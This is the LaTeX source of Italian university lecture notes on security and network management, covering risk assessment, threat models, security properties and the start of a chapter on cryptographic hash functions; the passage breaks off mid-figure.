\documentclass[a4paper,italian,11pt,openany]{book}
\usepackage[a4paper,top=1.5cm,bottom=1.5cm,left=2cm,right=2cm]{geometry}
\usepackage{epstopdf}
\usepackage{graphicx}
\DeclareGraphicsExtensions{.png,.jpg,.pdf}
\usepackage{subfigure}
\usepackage[utf8]{inputenc}
\usepackage[italian]{babel}
\usepackage{amsthm}
\usepackage{amsmath}
\DeclareMathOperator{\tr}{tr}
\DeclareMathOperator{\diver}{div}
\DeclareMathOperator{\mean}{mean}
\usepackage{amssymb}
\usepackage{enumitem}
\usepackage{multicol}
\usepackage{clrscode3e}
\usepackage{listings}
\lstset{basicstyle=\footnotesize\ttfamily,frame=single,showstringspaces=false}
\usepackage{textcomp}
\usepackage{pgf}
\usepackage{pgfplots}
\usepackage{tikz}
\usetikzlibrary{arrows,shapes.geometric,automata}
\tikzstyle{rect} = [rectangle, rounded corners, minimum width=3cm, minimum height=1cm, text centered, draw=black]
\tikzstyle{process} = [rectangle, minimum width=3cm, minimum height=1cm, text centered, draw=black]
\tikzstyle{arrow} = [thick,->,>=stealth]
\usetikzlibrary{calc}
\usepackage{bytefield}
\newcommand{\shellcmd}[1]{\\\indent\indent\texttt{\footnotesize\$ #1}\\}
\usepackage{color}							%Tmp package, to be removed at the end
\newcommand{\todo}[1]{\textcolor{red}{TODO: #1\\}}
\usepackage{booktabs}
\theoremstyle{definition} 
\newtheorem{defn}{Definizione}[chapter]
\theoremstyle{proposition}
\newtheorem{prop}{Proposizione}[chapter]
\theoremstyle{theorem}
\newtheorem{thm}{Teorema}[chapter]
\theoremstyle{definition}
\newtheorem{example}{Esempio}[chapter]
\usepackage[pdftex, pdfauthor={Alessio Sortino}, pdftitle={Notes of Security and Network Management}]{hyperref}
\hypersetup{ pdfborder = {0 0 0} }
\makeatletter
\newcommand\HUGE{\@setfontsize\Huge{60}{70}}
\makeatother    
 
%\usepackage{fancyhdr}
%\pagestyle{fancy}
%\rfoot{$\mathbb{A.S.}$}
\begin{document}
\begin{titlepage}
	\centering
	\vspace*{\stretch{1}}
	%{\Large Nome Cognome\par}
	\vspace{1cm}
	
	{ {\HUGE \textsc{Security and Network Management}} \par}
	\vspace{3cm}
	{\huge $\mathcal{M}$\textit{aster's Degree in Computer Engineering\\University of Florence} \par}
	\vspace{0.5cm}
	{\LARGE $\mathcal{A}$\textit{lessio Sortino}\par}
	\vspace{0.7cm}
	{\Large $\mathcal{D}$\textit{ecember, 2016} \par}
	\vspace*{\stretch{2}}
	\vspace*{\stretch{1}}
	\begin{figure}[htbp]
		\centering
		
\includegraphics[scale = 0.5]{header/logo-unifi.png}
		\label{header}
	\end{figure}
	\vspace*{\stretch{2}}
\end{titlepage}
% Uncomment to print Index of document
\tableofcontents

% Include chapters
%!TEX root = ../Security&NetworkManagement.tex
\chapter*{Prefazione}
In queste note è riportato un riassunto dei contenuti del corso \textquotedblleft Security and Network Management" tenuto nell'A.A. 2016/2017 presso la Scuola di Ingegneria dell'Università di Firenze dal prof. Tommaso Pecorella.

Il contenuto di queste note riprende quindi dal materiale didattico fornito contestualmente, in primis le slides utilizzate a lezione dallo stesso professore, ma anche appunti. Si precisa che queste note non vogliono essere in alcun modo esaustive e complete ai fini della preparazione dell'esame.\\
La struttura di queste note è organizzata secondo i tre macro argomenti presentati a lezione: \textit{Security Basics} (Capitoli 1-2-3-4), \textit{Security Advanced} (Capitoli 5-6) e \textit{Network Management} (Capitolo 7).
%\fbox{
%\begin{minipage}{\textwidth}
%	\todo{Add here the three macro arguments: Security Basics (1-4), Security Advanced (5-6) and Network Management (7).}
%\end{minipage}
%}
\chapter{Introduzione}
Il concetto di \textit{sicurezza} (\textit{security}) può essere brevemente descritto come la protezione delle informazioni di un sistema da furti o dal danneggiamento hardware o software del sistema stesso. Le principali proprietà della sicurezza sono:
\begin{itemize}
	\item \textbf{Confidenzialità}. Garantire che l'informazione non sia accessibile da persone non autorizzate.
	\item \textbf{Integrità}. Garantire che l'informazione non sia alterata da persone non autorizzate in un modo che non è rilevabile dagli utenti autorizzati.
	\item \textbf{Autenticazione}. Assicurare che gli utenti siano le persone che dicono di essere.
\end{itemize}
Raggiungere questi obiettivi, tuttavia, non è così semplice.\\
È molto comune, inoltre, confondere il concetto di \textit{security} con quello di \textit{safety}:
\begin{itemize}
	\item \textbf{Security}. Con questo termine si esprime l’insieme delle misure finalizzate a \textit{prevenire} o \textit{ridurre} la probabilità che un dato evento non desiderato accada.
	\item \textbf{Safety}. Con questo termine si intende invece la \textquotedblleft risposta" del sistema al verificarsi di un particolare evento indesiderato.
\end{itemize}
Inoltre, è sempre bene tenere presenti i \textit{costi} legati alla sicurezza: la sicurezza non è gratuita. Questa infatti implica una complessità maggiore del sistema, maggiori costi operazionali e di implementazione ed il cambiamento del workflow (alcune cose potrebbero non essere fattibili, o potrebbero essere realizzate con limitazioni).

Prima di progettare la parte riguardante la sicurezza di un sistema, abbiamo bisogno di conoscere \textit{che cosa} (\textit{what}) deve essere reso sicuro, \textit{perché} (\textit{why}), e \textit{contro chi} (\textit{who}). Quando le politiche di sicurezza sono troppo restrittive (o non sono comprese) l'utente troverà un modo per violarle; d'altra parte, le politiche di sicurezza, se non seguite, risultano \textit{inutili}.

Il problema diventa quindi il seguente: abbiamo bisogno di un modo per descrivere \textit{che cosa, perché} e \textit{contro chi}. Per questa necessità in genere si segue uno standard, l'\textbf{Enterprise Architecture Framework (EAF)}.

\section{Enterprise Architecture Framework}
Un \textit{Enterprise Architecture Framework (EAF)} (Figura \ref{img:EAF}(a)) è un framework per un'architettura d'impresa; in particolare, definisce come organizzare la struttura e le viste associate con un'architettura d'impresa. Sostanzialmente è qualcosa legato alla gestione dell'azienda ed abbiamo bisogno di comprenderlo per utilizzarlo.
\begin{figure}[htbp]
	\centering
	
\includegraphics[scale = 0.4]{images/EAF_scheme.jpg}\qquad\qquad
	
\includegraphics[scale = 0.5]{images/EAF_iterative_model}
	\caption{Enterprise Architecture Framework.}
	\label{img:EAF}
\end{figure}
Gli EAFs più usati sono i seguenti:
\begin{itemize}
	\item COBIT -- Framework for IT Governance and Control
	\item TOGAF -- the Open Group Architecture Framework
	\item DoDAF -- United States Department of Defense Architectural Framework.
	\item MODAF -- United Kingdom Ministry of Defence Architectural Framework.
	\item NAF -- the NATO Architecture Framework
	\item SABSA a comprehensive framework for Enterprise Security Architecture and Service Management
\end{itemize}
TOGAF e COBIT sono quelli più usati in imprese non militari. In Figura \ref{img:EAF}(b) è riportato l'EAF TOGAF: questo, come altri EAFs, adotta un modello \textquotedblleft iterativo" in cui ad ogni fase si raffinano e si precisano i concetti precedenti. Gli aspetti ingegneristici/tecnici sono racchiusi principalmente nei punti F, G e H. Quasi tutti i framework pongono l'accento sui dati piuttosto che sulle applicazioni o sulla tecnologia. A tal proposito viene introdotto quindi il concetto di \textit{asset}.

Si definisce \textbf{asset} una qualsiasi risorsa dell'impresa che abbia o rappresenti un valore importante per l'azienda stessa; può essere rappresentato da: dati, componenti tecnologici (hardware) o componenti applicativi (applicazioni).\\
Per garantire la sicurezza su un asset è necessario che tutta la catena dell'EAF corrispondente sia implementata in maniera affidabile. Un asset ha anche delle proprietà che possono essere intrinseche, desiderate o imposte dalla legge (e.g. i dati personali sono sottoposti alla legge sulla privacy). Tali proprietà sono \textquotedblleft esportate" agli asset che interagiscono con l'asset in questione. Lo scopo principale della sicurezza è quello di proteggere gli asset.\\
È molto importante capire bene i requirements dell'asset al fine di svolgere un'analisi quanto più dettagliata possibile. Introduciamo dunque il \textit{risk management}.\\
La gestione del rischio (\textbf{risk management}) è il processo mediante il quale si misura o si stima il rischio (in riferimento agli asset) e successivamente si sviluppano delle strategie per gestirlo. Il risk management è diverso dall'enforce management, poiché siamo consapevoli che un qualche tipo di rischio esiste sempre. La gestione dei rischi è molto complicata, perché per gestire un rischio è necessario in primis \textit{identificare tutti i tipi di rischi possibili} di un asset; in secondo luogo vi è una fase di \textit{valutazione} in cui si decide se il rischio è reale o meno, ossia se tale rischio ha una probabilità ragionevole di verificarsi, e quanto può essere dannoso per sistema. Solo dopo questi due passi è possibile pensare alle tecniche di \textit{riduzione del rischio a livelli accettabili} (si cerca di evitare il verificarsi di un evento dannoso) ed \textit{implementazione di contromisure per mantenere il livello di rischio definito}. Ciò che siamo abituati a pensare come “sicurezza” è svolto negli ultimi due punti.

Una volta terminata la parte di gestione del rischio, si procede con la valutazione del rischio (\textbf{risk assessment}). Esistono due tipi di risk assessment:
\begin{enumerate}
	\item \textbf{Qualitativo}. Fornisce una visione semplice e sintetica dei possibili rischi.
	Per svolgere un risk assessment di tipo qualitativo si utilizzano dei valori relativi (ad esempio una scala da 1 a 3, dove 1 significa \textquotedblleft low", 2 significa \textquotedblleft medium" e 3 significa \textquotedblleft high"). Questi valori producono un ordinamento dei rischi in base alla loro priorità che può essere utile durante il processo di risk management.\\
	Alcuni esempi di analisi qualitativa possono essere la costruzione di matrici di importanza (influenza) (una per ogni asset) o la stima della probabilità di occorrenza. Di seguito è riportato un esempio di matrice di importanza.
	\begin{center}
		\begin{tabular}{ c|c|c|c| }
			\cline{2-4}
			High &  &  & \\
			\cline{2-4}
			Med &  &  & \\
			\cline{2-4}
			Low &  &  & \\
			\cline{2-4}
				\multicolumn{1}{r}{} &  \multicolumn{1}{c}{Low}
			& \multicolumn{1}{c}{Med} & \multicolumn{1}{c}{High} \\
		\end{tabular}
	\end{center}
	Le righe (asse $y$) contengono la probabilità che un evento $e$ accada ($\mathcal{P}(e)\in\{\text{low, med, high}\}$), mentre le colonne (asse $x$) contengono il risultato (outcome) dell'evento. Una volta costruita la matrice, questa viene suddivisa in tre parti tracciando due diagonali; chiamiamo la parte più bassa $A$, quella nel mezzo $B$ e quella più in alto $C$. Dobbiamo quindi focalizzarci in primis sulla parte $C$ per cercare di portare quanto più possibile nella parte $B$: questo può essere effettuato mediante la riduzione della probabilità del verificarsi di un evento o tramite la riduzione dell'outcome. Analizziamo poi la parte $A$ ed in questo caso abbiamo due possibilità:
	\begin{enumerate}
		\item I rischi identificati non sono correlati al lavoro.
		\item I rischi identificati sono correlati; in questo caso, o abbiamo sovrastimato l'evento o abbiamo speso troppo per la sicurezza.
	\end{enumerate}
	Vantaggi di un approccio qualitativo: semplice e di immediata comprensione per qualsiasi lettore. Svantaggi: serve un esperto del sistema per costruirlo, dunque per raggiungere la semplicità dobbiamo consultare un esperto che sappia nel dettaglio qualsiasi cosa inerente al sistema: se non realizzato da un esperto, questo modello potrebbe produrre dei risultati troppo approssimativi o incorretti.
	\item \textbf{Quantitativo}. In questo caso si parte da un insieme di formule matematiche, si assegna un'unità di misura ad ogni asset ed infine si associa un valore ad ogni asset (detto \textit{Asset Value -- AV}). Successivamente si calcola l'\textit{Annual Rate of Occurrence (ARO)}, ossia il numero di volte che ci aspettiamo che un evento accada in un anno, e l'\textit{Exposure Factor (EF)} [\%] che indica la percentuale di un asset che ci si aspetta di essere danneggiato da ogni occorrenza di un particolare rischio (e.g. se ci aspettiamo che un rischio distrugga completamente un asset, $EF=100\%$).\\
	Dati questi tre valori, si calcolano altri due valori derivati: la \textit{Single Loss Expectancy (SLE)} e l'\textit{Annual Loss Expectancy (ALE)}. La SLE indica il valore che ci aspettiamo di perdere ogni volta che un rischio si verifica: SLE $ = $ AV $\times$ EF. L'ALE indica il valore medio che ci aspettiamo di perdere ogni anno per un dato rischio: ALE $ = $ SLE $\times$ ARO; in genere questo valore si utilizza per prendere decisioni riguardanti le misure che dovrebbero essere adottate per gestire i particolari rischi. Infatti, se l'ALE è alto è possibile:
	\begin{itemize}
		\item implementare delle contromisure per ridurre la probabilità del verificarsi dell'evento, oppure
		\item lavorare sull'EF, cercando di ridurre le conseguenze (cioè di ridurre l'outcome nel modello precedente).
	\end{itemize}
	Questo modello tuttavia presenta alcune criticità:
	\begin{itemize}
		\item non è semplice quantificare il valore di un asset;
		\item l'ARO è una probabilità che non è semplice da stimare;
		\item non è semplice valutare l'EF.
	\end{itemize}
	Il prodotto di queste ultimi tre valori fornisce l'ALE, in cui l'errore è amplificato dal momento che anche gli errori di stima di ogni singolo fattore sono moltiplicati. Se quindi non vi è una sufficiente accuratezza nella stima di questi tre parametri otteniamo delle misure troppo grossolane. Come ultima cosa si tenga presente che l'ALE è un valore medio, dunque per avere più precisione nella stima tipicamente viene utilizzata la moda (il valore più alto nella distribuzione).
\end{enumerate}
A questo punto entra in gioco la \textbf{risk analysis}, che presentiamo mediante il modello grafico (Figura \ref{img:risk_analysis_model}); descriviamolo brevemente. 
\begin{figure}[htbp]
	\centering
	
\includegraphics[scale = 0.4]{images/risk_analysis_model}
	\caption{Risk Analysis Model.}
	\label{img:risk_analysis_model}
\end{figure}

Un \textit{asset} ha due proprietà: il \textit{livello di sensitività}, cioè quanto un asset è sensibile ad un rischio (e dunque riflette la proprietà di sicurezza che vogliamo attribuire all'asset), ed il \textit{livello di protezione}, cioè il livello di sicurezza che diamo all'asset. La seconda proprietà definisce le \textit{security policies}, delle misure preventive per far sì che un dato evento non accada (costose in generale), ed implementa delle \textit{contromisure} atte a ripristinare gli effetti negativi causati dal verificarsi di un evento. Il livello di protezione riflette i rischi, che sono influenzati da \textit{reliability} e \textit{vulnerability}. La vulnerability è un aspetto che viene spesso sfruttato in rete dagli attaccanti ed è una proprietà degli asset (ossia l'asset è vulnerabile); in sostanza la presenza di vulnerabilità implica la presenza di pericoli per il sistema, in particolare per l'asset stesso. Un \textit{threat}, ideato da un \textit{threat agent}, sfrutta le vulnerabilità per attaccare un asset. Si noti che la vulnerabilità, in generale, non è nota a priori da un attaccante: essa deve essere prima trovata e qualora lo fosse, questa rappresenta un pericolo per l'asset. La vulnerabilità va dunque \textit{eliminata} e non nascosta: principalmente le vulnerabilità devono essere eliminate mediante una buona progettazione/programmazione dei sistemi. Una parte chiave in questo processo è quindi il \textbf{vulnerability assessment} che può essere attuato in diversi modi.

Per definire in modo completo la “sicurezza” è infine indispensabile il \textbf{threat model} (attaccante), descritto nell'RFC 3552, che fa parte della risk analysis. Come già detto, un asset ha sicuramente delle vulnerabilità, e queste possono essere note oppure completamente ignote all'attaccante. In ogni caso è necessario costruire un modello che ci indichi quanto potenti sono le risorse ed informazioni che possiede un attaccante. Il threat model si pone di descrivere principalmente tre questioni: le \textit{informazioni} che possiede l'attaccante sul sistema, la \textit{capacità computazionale} dell'attaccante e “quanto” sta \textit{controllando il nostro sistema}. Generalmente si assume che l'attaccante abbia a disposizione tutte le informazioni del sistema (tranne le chiavi di crittografia), abbia un'ottima dotazione HW/SW, abbia un totale controllo del sistema di comunicazioni (send/receive), ma si suppone che l'attaccante non abbia ancora preso controllo degli endpoints (sistema).

In alcuni casi è plausibile parlare di attacchi “limitati”, dove l'attaccante può alternativamente:
\begin{itemize}
	\item inviare ma non ricevere [tutto] (\textbf{attacchi attivi}, bind o meno); con questo tipo di attacco si mandano dei pacchetti in rete, ma potrebbe essere persa di vista la comunicazione tra gli endpoints. Alcuni esempi sono: replay attacks, message insertion (aggiunta di contenuto nei messaggi), message deletion, message modification e man-in-the-middle (l'attaccante si pone nel canale di comunicazione tra endpoints svolgendo così il ruolo di proxy, ma allo stesso tempo può manipolare i messaggi a suo piacimento).
	\item ricevere ma non inviare (\textbf{attacchi passivi}). Questo è un tipo di attacco difficile da fare senza essere notati: le reti switched, avendo capacità di trasmissione di $\approx$ 1Gb/s, eventuali flussi massicci di dati rallenterebbero sicuramente la velocità di trasmissione nella rete. Questo perché in genere vengono catturati \textit{tutti} i pacchetti che transitano da/verso uno o più host al fine effettuare alcune operazioni come violazione di confidenzialità, password sniffing oppure ofline cryptographic analysis.
\end{itemize}
Un altro elemento sul quale bisogna porre l'attenzione è la topologia della rete. Ai fini della sicurezza è necessario conoscere sia la topologia fisica, sia quella IP. L'idea è quella di controllare il percorso delle informazioni per cercare di capire se queste passano per un attaccante. È assolutamente sbagliato assumere che l'attaccante possa inviare e ricevere pacchetti con la stessa facilità.\\
Gli attacchi si possono dividere in:
\begin{enumerate}
	\item \textbf{On-path}: l'attaccante si trova sul percorso dei pacchetti (e.g. man-in-the-middle). Di solito solo un gateway o un router sono on-path.
	\item \textbf{Off-path}: è il caso normale (passivo, cioè di tipo blind). L'attaccante può non trovarsi sul percorso delle informazioni.
	\item \textbf{Link-local}: sono gli attacchi peggiori, l'attaccante è sulla stessa sottorete di uno degli endpoints.
\end{enumerate}
Non si deve mai assumere che l'attacco sia off-path, ma certamente è più difficile (e meno probabile) che sia on-path. Inoltre per “diventare” on-path è necessario portare un attacco alla topologia (routing); questo è possibile ma assolutamente non banale.\\
Ricapitolando, un attacco:
\begin{enumerate}
	\item non è mai fine a sé stessi, vi è sempre uno scopo. È sempre necessario chiedersi il \textit{perché}.
	\item sfrutta una vulnerabilità.
	\item è rivolto ad un \textit{asset}.
\end{enumerate}
Un asset, invece:
\begin{enumerate}
	\item presenta \textit{sempre} delle vulnerabilità.
	\item ha un protection level ed un sensitivity level.
	\item si può proteggere con delle \textit{contromisure}.
\end{enumerate}
Le contromisure non sono le protezioni contro le vulnerabilità (queste ultime infatti sono tese ad eliminare le vulnerabilità). Le contromisure possono essere viste come vie alternative nel caso in cui l'asset venga attaccato.
\chapter{Elementi di crittografia}
La crittografia rappresenta un servizio, cioè un asset. Richiamiamo brevemente alcune proprietà che vorremmo fossero garantiti da un sistema sicuro:
\begin{itemize}
	\item \textbf{Disponibilità}: il servizio deve essere sempre disponibile. La disponibilità viene violata nel caso di un attacco \textit{DoS} (Denial of Service). La disponibilità del servizio è la cosa più difficile da garantire, poiché esistono sempre limiti fisici delle risorse e realizzare un attacco DoS deve costare il più possibile. La disponibilità in genere si ottiene con una accurata progettazione della rete.
	\item \textbf{Segretezza}: i dati scambiati devono rimanere riservati tra le parti che partecipano allo scambio. Si tenga presente che le reti ethernet permettono, generalmente, di fare \textit{sniffing} dei pacchetti. Per ottenere questa proprietà si devono utilizzare algoritmi di crittografia (simmetrici, asimmetrici, distribuiti, etc.).
	\item \textbf{Integrità}: i dati devono raggiungere la destinazione senza essere stati modificati. È possibile modificare dati cifrati senza decifrarli ricorrendo a degli attacchi di \textit{bit flipping}. Per ottenere l'integrità dei dati è necessario utilizzare delle funzioni di \textit{hashing}.
	\item \textbf{Autenticazione}: chi riceve un'informazione deve essere sicuro che il mittente è effettivamente quello dichiarato. I protocolli di internet spesso permettono di effettuare lo \textit{spoofing} degli	indirizzi mittente, ad esempio per le email. È diversa dalla segretezza, perché in questo caso è possibile autenticare anche un messaggio pubblico.
	\item \textbf{Non ripudiabilità}: chi invia un messaggio non può in seguito negare di averlo mandato. Questa proprietà è importante soprattutto a livello applicazione nello scambio di documenti.
	\item \textbf{Anonimato}: rappresenta la possibilità di immettere informazioni in una rete senza che queste siano direttamente collegabili all'identità del mittente. Esistono molte reti anonimizzanti, fra cui Tor, Freenet e remailer anonimi. In genere l'anonimato è richiesto perché si vogliono commettere atti illeciti senza essere rintracciati o perché non si è in condizione di esercitare i propri diritti civili.
\end{itemize}

\section{Principi di crittografia}
Il termine crittografia viene dalle parole greche \textit{kryptós} che significa nascosto, e \textit{gráphein} che significa scrivere. È quindi la scienza che si occupa di rendere segrete le informazioni.

La crittografia ha una storia secolare, dal cifrario di Cesare in poi sono stati fatti molti passi avanti. Oggi nella crittografia confluiscono studi mirati ad ottenere segretezza ma anche tutti gli altri servizi di sicurezza che abbiamo visto; fa eccezione la disponibilità, che ha poco a che vedere con la crittografia, anzi, generalmente un uso troppo diffuso di tecniche di cifratura aumentano la possibilità di essere vittime di DoS.

La crittografia garantisce la \textit{protezione dei documenti} (integrità, segretezza, autenticazione e non ripudiabilità) e la \textit{verifica dell'identità dei corrispondenti} (e.g. tramite il controllo degli accessi).

Per spiegare i principi di base della crittografia useremo degli esempi svincolati da qualsiasi tecnologia, dove vengono coinvolti. Supponiamo che due identità $A$ e $B$ vogliano comunicare attraverso lo scambio di un messaggio $M$. In questo momento assumiamo che non sia specificato alcun protocollo, le considerazioni che faremo si applicano alle connessioni TCP così come alla posta tradizionale. Vedremo in seguito come queste tecniche si applicano alle comunicazioni. Una terza entità $E$ è l'attaccante e proverà ad interferire con i servizi di sicurezza di questo scambio. Si suppone che $E$ possa intercettare i messaggi mentre viaggiano, leggerli e sostituirli così come avviene per un router nella rete Internet.

Le funzioni crittografiche che andremo a vedere sono di più tipi: funzioni hash, funzioni di cifratura a chiave simmetrica e funzioni di cifratura a chiave pubblica/privata. Da queste si derivano funzioni di firma digitale e certificazione degli utenti.

\subsection{Funzioni hash e HMAC}
Le funzioni hash risolvono il problema della garanzia di integrità di un documento o messaggio trasmesso. Una funzione hash è una funzione $h$ unidirezionale non invertibile
\begin{eqnarray*}
h:\mathbb{R}^n\to\mathbb{R}^m & & \text{con } m << n\text{,}\
\end{eqnarray*}
che si applica ad un'informazione (qualsiasi informazione in binario, una email, un pacchetto, un file, etc.) e genera un'impronta di dimensione fissa (un \textit{digest} che può essere di 128, 160, 256... bit) che è funzione dei dati in ingresso. Nel caso di messaggi a dimensione variabile si applica un hash a blocchi e successivamente si applica un altro hash agli hash ottenuti. Generalmente le funzioni hash sono sequenze di operazioni elementari quali shift e XOR sui dati, sono quindi molto veloci da computare. Si noti che le funzioni hash sono diverse dai CRC: quest'ultimi infatti si occupano di rilevare e correggere gli errori introdotti dal canale di trasmissione. In realtà la funzione hash non ha necessità di essere calcolata velocemente (come un CRC), poiché deve essere \textit{robusta}: messaggi diversi devono necessariamente avere hash diversi. Ad esempio, CASO e COSA hanno lo stesso CRC, ma hash diverso.\\
Un esempio di hash è lo SHA (Figura \ref{img:SHA}).
\begin{figure}[htbp]
	\centering
	
\includegraphics[scale = 0.5]{images/SHA}
	\caption{SHA-256.}
	\label{img:SHA}
\end{figure}
Dato un messaggio $x$, applicando lo SHA otteniamo la \textit{signature} (\textit{digest}) $h(x)$ del nostro messaggio. È molto importante che il messaggio e $h(x)$ siano inviati separatamente, perché se così non fosse si perderebbero le idee e le proprietà fondamentali dell'hash.
\begin{example}[Esempio di utilizzo delle funzioni hash]$\\$
Supponiamo che $A$ invii a $B$ il messaggio $M$ e che invii separatamente anche il digest $d=h(M)$. $B$ riceve quindi $M$ e $d$, e ricalcola $d'=h(M)$: se $d=d'$, allora il messaggio non è stato modificato durante il percorso. La domanda che sorge spontanea è quindi: $E$ cosa può fare? Se $E$ intercetta solo $M$ può provare a cambiarlo, ma quando $B$ riceverà anche $d$, l'hash non sarà più corrispondente e dunque si accorgerà della modifica avvenuta. Per riuscire a modificare il messaggio da $M$ a $M'$, $E$ dovrebbe riuscire ad intercettare anche $d$ per cambiarlo in $h(M')$.\\
Un'applicazione tipica di hash è quella della distribuzione di immagini di file eseguibili: ogni qualvolta viene scaricato un eseguibile è necessario essere sicuri che sia identico al file che il produttore ha generato; anche un solo bit di differenza può provocarne il mancato funzionamento. Con le ISO dei sistemi operativi, infatti, spesso vi viene dato anche il codice MD5 del file, ovvero il digest creato con la funzione hash MD5.
\end{example}
\noindent
Vediamo adesso i \textit{requisiti} che deve soddisfare una funzione hash $h$.
\begin{itemize}
	\item \textbf{Compressione}. La funzione $h$ deve mappare un input $x$ avente lunghezza arbitrariamente finita, in un output $h(x)$ di lunghezza $n$ prefissata.
	\item \textbf{Facilità di calcolo}. Data $h$ ed un input $x$, $h(x)$ deve essere semplice da calcolare.
\end{itemize}
Oltre a queste proprietà elementari si aggiungono:
\begin{itemize}
	\item \textbf{Preimage resistance}. Essenzialmente, per tutti gli output pre-specificati $Y=\{y_1,\dots,y_n\}$, deve essere computazionalmente intrattabile trovare un qualsiasi input $x$ tale per cui, applicando $h$, si abbia come risultato $y=h(x)$, dove $y\in Y$. Ossia: l'attaccante conosce l'hash e cerca di risalire al messaggio avente tale hash.
	\item \textbf{2nd-preimage resistance}. Deve essere computazionalmente intrattabile trovare un secondo input che presenta lo stesso output di un input specificato, i.e. dato $x$ deve essere \textquotedblleft impossibile" trovare una 2nd-preimage $x'\neq x$ tale che $h(x') = h(x)$. Ossia: l'attaccante conosce il messaggio e ne cerca un altro con lo stesso hash.
	\item \textbf{Collision resistance}. Deve essere computazionalmente intrattabile trovare due input $x, x'$ che presentino lo stesso output, i.e. tali che $h(x') = h(x)$, ossia trovare due messaggi diversi che abbiano hash uguale.
\end{itemize}
Si noti che comunque una funzione hash è robusta se la sua entropia è massima, cioè ogni bit della signature viene generato in modo equiprobabile. 

In Figura \ref{img:SHA_example} è riportato un esempio di scambio di messaggio attraverso la funzione hash SHA-1. Come è possibile notare, un ipotetico attaccane potrebbe porsi in corrispondenza della linea tratteggiata; potrebbe cioè modificare il testo del messaggio proveniente dall'entità $A$, calcolarne l'hash ed inviare le due informazioni all'entità $B$. In tal modo non è possibile per $B$ capire se il messaggio è stato modificato o meno.
\begin{figure}[htbp]
	\centering
